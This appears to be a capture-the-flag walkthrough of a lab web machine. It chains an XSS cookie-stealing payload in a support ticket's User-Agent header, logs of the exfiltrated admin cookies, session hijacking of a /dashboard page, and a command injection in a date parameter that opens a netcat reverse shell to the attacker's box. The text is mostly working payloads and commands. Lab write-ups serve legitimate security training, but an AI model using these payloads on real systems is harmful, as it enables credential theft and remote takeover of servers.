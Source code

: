 There is a support screen where there is a place to log a support ticket. We input a script there to check for a cross site scripting vulnerability. This is input in burpsuite

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie);
</script>
```

On our local we run a webserver to to receive a cookie:

```
python3 -m http.server 5000

Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.14.41 - - [14/Jul/2024 11:08:21] "GET /?
cookie=aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz HTTP/1.1" 200 -
10.10.11.8 - - [14/Jul/2024 11:08:42] "GET /?
cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

After a gobuster dir attack, we see that there is a /dashboard behind a signin. We use the cookie to login as admin to connect to the /dashboard. First we have to run the cookie against base64

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```

We then input the cookie via developer tools in the storage tab.

On the /dashboard page in burpsuite we find that there is a `date` input, we add another command injection there to get a reverse shell on the attacking box.

```
date=2023-09-15;+nc+10.10.14.41+4444+-e+/bin/bash
```

Netcat listens and gets our shell:

```
nc -lnvp 4444
```


